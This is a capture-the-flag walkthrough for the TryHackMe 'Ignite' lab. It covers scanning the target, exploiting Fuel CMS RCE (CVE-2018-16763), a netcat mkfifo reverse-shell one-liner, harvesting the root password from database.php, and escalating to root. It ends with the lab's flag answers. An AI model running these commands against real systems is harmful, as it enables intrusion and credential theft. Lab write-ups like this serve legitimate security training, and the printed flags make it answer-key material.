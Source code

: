 
# Ignite CTF Walkthrough

Ignite is a vulnerable new start up with issues in their web server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/ignite<br />
THM Difficulty: Easy<br />
My Difficulty: Easy<br />
Target IP: 10.10.105.97<br />
AttackBox IP: 10.10.189.128<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```rustscan -a 10.10.105.97```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flag -sV to find the service versions on the open port.<br />
```nmap -sV -p80 10.10.105.97```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT2.png?raw=true)<br />
We have only found one service, this CTF may just be a webservice. Let's try to find some vulnerabilities!

## HTTP Service Recon

Let's load up our web browser and head over to http://10.10.105.97/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT3.png?raw=true)<br />
Straight away we see the name "Fuel CMS" and a version "Version 1.4". Let's see what else we can find.
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT4.png?raw=true)<br />
Further down the webpage we see the link to an admin page and a default login, let's try logging in!
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT5.png?raw=true)<br />
Success! We've managed to login to the admin panel with the default username and password. Let's check the search engines for Fuel CMS 1.4 to see if we can find any vulnerabilities.<br />

Another hit! We see an exploit-db result that affects Fuel CMS versions 1.41 and below. CVE-2018-16763, remote Code Execution.
Now we have two ways we can go, using the exploit we found or to try upload a reverse shell on the admin panel.<br />

## Exploiting Fuel CMS 1.41
We're going to try the first way... Using the exploit we found! Why not?<br />
First let's download the exploit onto our AttackBox - https://www.exploit-db.com/raw/50477<br />
I downloaded it and named it exploit.py, let's run it and see if we can get a shell! This exploit requires no additional configuration.<br />
```python exploit.py```<br />
It tells us we need to add the -u flag with the URL! Let's go.<br />
```python exploit.py -u http://10.10.105.97```<br />
If the exploit was succesful you will be asked to enter a command like I've done below<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT6.png?raw=true)<br />
It looks like the exploit executes PHP system commands, let's get a reverse shell up for more functionality. To do this 
we'll need to firstly open up a listener on our AttackBox, then we will send the PHP system command to spawn a reverse shell to that listener.<br />
On our AttackBox:<br />
```nc -lvnp 8888```<br />
<br />
On our target with the PHP system commands:<br />
```rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.189.128 8888 >/tmp/f```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT7.png?raw=true)<br />
Now we have our reverse shell opened! Let's have a look in /home<br />
```cd /home```<br />
```ls```<br />
We see another folder www-data, after checking inside the folder we find a flag.txt, this must be our User flag!<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT8.png?raw=true)<br />
After having a look around it looks like we'll need to escalate our privileges to get any further!<br />

## Privilege Escalation

Let's start looking for ways to escalate our privileges!
```uname -a ```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT9.png?raw=true)<br />
4.15.0-45-generic is the version of our kernel, after looking there is an exploit but it requires us to have newuidmap which we do not have.<br />
Let's continue looking...<br />
```sudo -l```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT10.png?raw=true)<br />
No luck. I continued searching for a while then went back to see if I had missed something.<br />
After going back to the website I noticed this:
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT11.png?raw=true)<br />
Let's have a look in the directory to see if there is any login information! Now we go back to our shell and use the following commands:<br />
```cd /var/www/html/fuel/application/config/```<br />
```cat database.php```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT13.png?raw=true)<br />
Bingo! We see a login for the user root! Let's try using this password on the target system. First we'll need to get a more stable shell...<br />
We should of done this at the start, whoops! Let's use Python:<br />
```python -c 'import pty;pty.spawn("/bin/bash")'```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT14.png?raw=true)<br />
Now we have a more stable shell let's try logging into the account we got from the database.php<br />
```su root```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT15.png?raw=true)<br />
After entering the password we're in! Let's find the final flag.<br />
```cd /root```<br />
```cat root.txt```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT16.png?raw=true)<br />

## Questions & Answers

Question 1:<br />
**What is the user flag?** 6470e394cbf6dab6a91682cc8585059b<br />

Question 2:<br />
**What is the root flag?** b9bbcb33e11b80be759c4e844862482d<br />

### Farewell, I hope you all enjoyed this write-up!

